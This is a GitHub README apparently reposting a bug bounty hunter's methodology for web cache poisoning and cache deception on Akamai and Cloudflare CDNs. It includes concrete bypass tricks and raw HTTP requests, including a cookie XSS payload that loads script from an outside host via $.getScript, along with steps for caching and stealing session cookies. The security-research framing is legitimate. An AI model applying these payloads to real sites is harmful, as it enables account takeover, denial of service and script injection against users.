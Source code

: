 # web-cache-poisoning
https://bxmbn.medium.com/how-i-test-for-web-cache-vulnerabilities-tips-and-tricks-9b138da08ff9
this is the best advice for web cache poisoning 

I will be sharing my “Methodology” from start to end when looking for Cache Issues, then I will share recent Real-Cases Scenarios with their respective Bounties.

It is worth sharing that I don’t use Automated tools to find these issues. In fact the Only Automated Tool I use for my general testing is SQLmap for SQLi.

Methodology

If the application does not have a login functionality, but using Akamai CDN, these are my steps:

Send the first request to Repeater

Check if the server is caching normal requests (you can tell this by the response header “Server-Timing: cdn-cache; desc=HIT”)

Add an Illegal Request Header into the request

If the response was successfully cached, when you open the URL on any browser, you should get a 400 Bad Request

If the Application does have a Login Functionality

Create an account
Check if any sensitive information is disclosed in any page (e.g Session Token)

Send the request to Repeater
Add a Cacheable Extension (.js , .css) at the end of the URL and see if it gives a 200 OK Response

Open the Modified URL using your authenticated Account

Open the Same URL using curl or Private Web Browser Window

If the Token was successfully Cached you should see the Token in the response

If the Application is using Cloudflare CDN

Illegal headers won’t work, and now most Cloudflare Customers are using Cache Deception Armor

I was able to bypass this protection using .avif file which is a really unknown extension file.

#1391635

However, there are some sites that don’t have this protection activated and you can perfectly test for Cache Poisoning/Deception

Real-Cases

Cache Deception To Account Takeover → Bounty = $1,500

Summary:
All cookies (even HTTPonly ones) are being disclosed in https://host.com/app/conversation/1.js

if an authenticated user visits this URL all their cookies will be stored in the cache

An attacker can then extract the cookie and hijack their Session

Note:
Sometimes, if the response is a “404 Not found” Akamai only caches the response for less than 10 seconds, making this harder for the attacker. The attacker needs to be quick in this case, however, if Akamai Detects a 200 Ok Response, the response will last for at least 24 Hours.

Tip & Trick
In some Applications, if you add a Semicolon (;) before the extension it may give you a 200 Ok response

e.g

/xxxx/xxxxxx/;.js

Response

HTTP/2 200 Ok
Cache Poisoning To DoS → Bounty = $1,000

Summary:
In Akamai CDN, If we send a backslash \ as a header, the server will respond with a 400 Bad Request Response

Request:

GET /products/xxx/xxxx/xxx/?test HTTP/2
Host: www.host.com
\: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Response:

HTTP/2 400 Bad Request
Content-Type: text/html;charset=iso-8859-1
Content-Length: 70
Cache-Control: max-age=297
Expires: Thu, 21 Jul 2022 16:17:54 GMT
Date: Thu, 21 Jul 2022 16:12:57 GMT
Server-Timing: cdn-cache; desc=HIT
Server-Timing: edge; dur=32
Server-Timing: origin; dur=147
Strict-Transport-Security: max-age=86400
Ak-Uuid: 0.bc85d817.1658419977.1592c61
This becomes an issue when the site uses caching servers. Sites typically only caches javascript, css and other files, but when sites like www.host.com also caches normal responses like

www.host.com/products/*

www.host.com/*

etc..

It becomes a very impactful bug.

Tip & Trick
Akamai has a workaround for this exploit, by making the 400 response to only last 5 seconds in the cache, however, an attacker can send null payloads using intruder in burp, so that the same 400 response gets cached forever


Cache Poisoning To Stored XSS → Bounty = $1,000

Summary:
There is a XSS via then_vis Cookie Parameter

Since the server caches this response, an attacker could be able to save a XSS Payload

There is a strong Filter (and WAF) that blocks most payloads, but since the site is using Jquery, an attacker can use the $.getScript Function to exploit this.

Request

GET /xxxx/xx-xx.otf?triagethiss HTTP/2
Host: www.host.com
Cookie: n_vis=xssx'*$.getScript`//593.xss.ht`//;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-xss,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Te: trailers
Response

<script>
...
Visitor.id='xssx'*$.getScript`//593.xss.ht`//;
....
</script>
Tip & Trick
Test for XSS on any Request Header, Cookies, Custom Headers, X-Forwared-* Headers


https://youst.in/posts/cache-poisoning-at-scale/
